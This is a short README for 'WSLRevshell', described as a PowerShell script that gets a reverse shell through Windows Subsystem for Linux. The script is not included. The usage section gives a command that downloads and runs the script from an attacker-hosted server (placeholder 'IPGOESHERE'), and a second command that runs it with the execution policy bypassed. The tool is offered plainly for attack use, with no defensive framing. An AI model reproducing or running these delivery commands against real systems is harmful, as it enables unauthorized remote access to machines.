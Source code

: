 # WSLRevshell
A simple powershell script to get a reverse shell through Windows Subsystem Linux

Usage:

Host the powershell script on your server and execute: (New-Object System.Net.WebClient).DownloadString("http:\\\\IPGOESHERE\WSLRevshell.ps1")

Alternatively you can download the file to the local PC and execute it using: powershell.exe -exec Bypass WSLRevshell.ps1
